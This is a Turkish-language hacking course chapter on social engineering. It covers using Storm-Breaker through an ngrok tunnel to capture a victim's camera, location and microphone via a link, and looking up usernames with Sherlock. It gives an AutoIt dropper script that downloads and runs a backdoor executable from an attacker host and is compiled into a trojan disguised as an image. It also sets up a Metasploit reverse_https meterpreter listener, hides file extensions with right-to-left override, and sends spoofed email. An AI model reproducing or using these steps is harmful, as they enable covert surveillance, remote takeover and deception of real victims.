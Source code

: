 # 📚 Bölüm 13: Sosyal Mühendislik

---

## 🌐 Sadece Link ile Cihazlara Ulaşmak

### 🔸 Ngrok Nedir?

Ngrok, yerel (localhost) servislerini dış dünyaya açmak için kullanılan bir tünelleme (tunneling) aracıdır.

- HTTPS, TCP ve UDP tünelleri oluşturabilir.
- Port yönlendirme olmadan dış IP veya domain üzerinden erişim sağlar.

```bash
# HTTP 2525 portunu tünellemek
./ngrok http 2525
```

### 🚨 Storm-Breaker Kullanımı

```bash
python3 st.py
```

- Ngrok iki bağlantı adresi verir: biri local, biri internete açık URL.
- Kurbana bu link gönderilerek **kamera, konum, mikrofon** verileri ele geçirilebilir.
- Premium sürüm ile uyarı ekranları kaldırılabilir.

---

## 🦠 Zararlı Yazılım Türleri

1. **Virüs** – Dosyalara bulaşan ve çoğalan zararlı yazılım
2. **Worm (Solucan)** – Ağa yayılan, çoğalan yazılım
3. **Trojan (Truva Atı)** – Masum görünen ama arka planda zararlı çalışan yazılım
4. **Ransomware** – Dosyaları şifreleyip fidye talep eden yazılım
5. **Spyware** – Bilgi toplayan casus yazılım
6. **Adware** – İstenmeyen reklamlar gösteren yazılım
7. **Rootkit** – Kalıcı erişim sağlayan araç
8. **Keylogger** – Klavye vuruşlarını kaydeden yazılım
9. **Botnet** – Enfekte sistemlerden oluşan kötü amaçlı ağ

---

## 🔍 Bilgi Toplama Araçları

### 🕵️ Maltego

- Açık kaynak istihbarat (OSINT) ve link analizi yapar.
- Kişi, e-posta, alan adı, IP vs. analiz edilir.
- Görsel grafiklerle ilişki çıkarımı sağlar.

### 🔎 Sherlock

- Kullanıcı adı üzerinden sosyal medya hesaplarını arar.

```bash
python3 sherlock username
python3 sherlock username --output output.txt
python3 sherlock username --site Instagram
```

---

## 🖼 Görsel ve Backdoor Birleştirmek

1. `.jpg`, `.ico` ve `backdoor.exe` dosyaları `/var/www/html/backdoor` içine atılır.
2. Windows'a aktarıldıktan sonra AutoIt ile birleştirilir.

### 📄 AutoIt Script:

```autoit
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "http://192.168.64.2/backdoor/android.jpg,http://192.168.64.2/backdoor/myhttps.exe"
Local $urlsArray = StringSplit($urls, ",", 2)

For $url In $urlsArray
    $sFile = _DownloadFile($url)
    shellExecute($sFile)
Next

Func _DownloadFile($sURL)
    Local $sFile = StringRegExpReplace($sURL, "^.*/", "")
    Local $sDirectory = @TempDir & "\" & $sFile
    Local $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc
```

3. AutoIt ile `Compile Script to EXE` özelliği kullanılarak trojan hazırlanır.

---

## 🧪 Trojanı Çalıştırmak

1. **Dinleyici Başlatmak**:

```bash
msfconsole
use/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 192.168.1.5
set LPORT 443
exploit -j -z
```

2. Hedef kullanıcı trojan'ı çalıştırdığında:

```bash
sessions -l      # Tüm oturumları listeler
sessions -i 1    # 1 numaralı session'a bağlan
```

3. Meterpreter içinden:

```bash
ls
background
```

---

## 🎭 Uzantı Gizleme (Right-to-Left Override)

- `unicode-explorer.com` üzerinden RLO karakteri (U+202E) ile dosya uzantısı gizlenebilir.

---

## 📧 E-posta Sahteciliği

- `anonymous email sender` gibi web siteleri üzerinden fake mail gönderimi yapılabilir.

---


